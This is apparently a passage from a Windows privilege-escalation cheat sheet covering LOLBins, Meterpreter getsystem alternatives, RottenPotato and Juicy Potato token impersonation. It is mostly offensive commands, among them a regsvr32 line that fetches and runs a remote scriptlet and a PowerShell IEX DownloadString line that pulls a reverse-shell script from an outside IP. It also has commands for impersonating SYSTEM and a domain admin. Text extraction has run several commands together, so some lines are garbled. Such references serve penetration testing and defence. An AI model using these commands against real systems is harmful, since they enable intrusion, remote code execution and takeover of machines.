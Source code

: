 A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra “unexpected” functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
- Have functionality that would be useful to an APT or red team

    wmic.exe process call create calcregsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dllMicrosoft.Workflow.Compiler.exe tests.xml results.xml

## EoP - Impersonation Privileges

Full privileges cheatsheet at https://github.com/gtworek/Priv2Admin, summary below will only list direct ways to exploit the privilege to obtain an admin session or read sensitive files.

[Untitled](Windows%20Privilege%20Escalation/Untitled%20Database.csv)

### Meterpreter getsystem and alternatives

    meterpreter> getsystemTokenvator.exe getsystem cmd.exeincognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exepsexec -s -i cmd.exepython getsystem.py # from https://github.com/sailay1996/tokenx_privEsc

### RottenPotato (Token Impersonation)

Binary available at : https://github.com/foxglovesec/RottenPotato Binary available at : https://github.com/breenmachine/RottenPotatoNG

    getuidgetprivsuse incognitolist\_tokens -ucd c:\temp\execute -Hc -f ./rot.exeimpersonate\_token "NT AUTHORITY\SYSTEM"

    Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"

### Juicy Potato (abusing the golden privileges)

Binary available at : https://github.com/ohpe/juicy-potato/releases
:warning: Juicy Potato doesn’t work on Windows Server 2019 and Windows 10 1809.

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

        whoami /priv

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
    - [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
    - [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    - [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    - [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    - [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
    - [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    - [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)
3. Execute JuicyPotato to run a privileged command.
